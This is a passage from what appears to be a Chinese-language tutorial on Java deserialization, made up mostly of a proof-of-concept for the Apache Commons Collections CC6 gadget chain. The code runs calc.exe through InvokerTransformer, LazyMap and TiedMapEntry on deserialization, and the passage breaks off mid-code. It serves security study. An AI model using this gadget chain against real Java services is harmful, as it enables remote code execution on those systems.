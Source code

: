 ![1](/img/331.png)

所以我们只需要让 key 等于 TiedMapEntry 对象。

POC如下：

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;

import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class cc6 {
    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {
        Transformer[] fakeTransformers = new Transformer[] {new
                ConstantTransformer(1)};
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] { String.class,
                        Class[].class }, new
                        Object[] { "getRuntime",
                        new Class[0] }),
                new InvokerTransformer("invoke", new Class[] { Object.class,
                        Object[].class }, new
                        Object[] { null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] { String.class },
                        new String[] { "calc.exe" }),
                new ConstantTransformer(1),
        };
        Transformer transformerChain = new ChainedTransformer(fakeTransformers);
        //为了避免本地调试时触发命令执行,再构造LazyMap先用一个fakeTransformers对象,等最后要⽣成Payload的
        //时候，再把真正的 transformers 替换进去

        Map innerMap = new HashMap();
        Map outerMap = LazyMap.decorate(innerMap, transformerChain);

        TiedMapEntry tme = new TiedMapEntry(outerMap, "keykey");//为了执行LazyMap#get方法
        Map expMap = new HashMap();
        expMap.put(tme, "valuevalue");//为了执行HashMap#hash方法

        //将恶意的transformers替换进transformerChain类中
        Field f = ChainedTransformer.class.getDeclaredField("iTransformers");
        f.setAccessible(true);
        f.set(transformerChain, transformers);

        //序列化
        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(expMap);
        oos.close();

        //反序列化
        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
```